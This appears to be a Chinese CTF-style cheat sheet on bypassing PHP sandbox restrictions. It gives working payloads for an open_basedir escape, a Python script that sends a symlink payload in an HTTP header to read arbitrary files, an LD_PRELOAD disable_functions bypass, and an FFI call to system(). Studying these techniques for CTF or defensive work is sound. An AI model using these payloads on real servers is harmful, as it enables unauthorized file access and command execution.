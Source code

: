 # PHP中的重要函数

## open_basedir绕过

```php
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

分析：https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/


symlink 法

```python
def exploit(f):
    #print f
    payload="""
error_reporting(E_ALL);
chdir("/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3/");
mkdir('./{0}/b/c/d/e/f/g/',0777,TRUE);
symlink('./{0}/b/c/d/e/f/g','{1}');
ini_set('open_basedir','/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3:{2}/');
symlink('{1}/../../../../../../','{2}');
unlink('{1}');
echo base64_encode(file_get_contents('{2}{3}'));
""".format(randomstr(),randomstr(),randomstr(),f)
    poc= payload.replace("\n",'')
    #print poc
    headers = {
        "eki":poc
    }
    req=requests.get(url,headers=headers)
    print req.text
```

### 扩展资料

https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/


## Bypass ``disabled_function``

### LD_PRELOAD

原理：

PHP 的 ``putenv()``函数，设定 ``LD_PRELOAD(环境变量)`` 为 ``hack.so``。

利用 PHP 的 ``mail()``函数，``mail()`` 内部启动新进程 ``/usr/sbin/sendmail``，因为上一步 ``LD_PRELOAD``的作用，``sendmail`` 调用的``void()``函数 被优先级更好的 ``hack.so`` 中的同名 ``getuid()``函数所劫持。

#### Exp

https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD

### php 7.4 FFI


根据官方文档``FFI``是可以直接调用系统函数的

比如这样

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("id > /tmp/eki");
echo file_get_contents("/tmp/eki");
@unlink("/tmp/eki");
```

**但是``FFI API``仅能适用于预加载文件**

## require_once

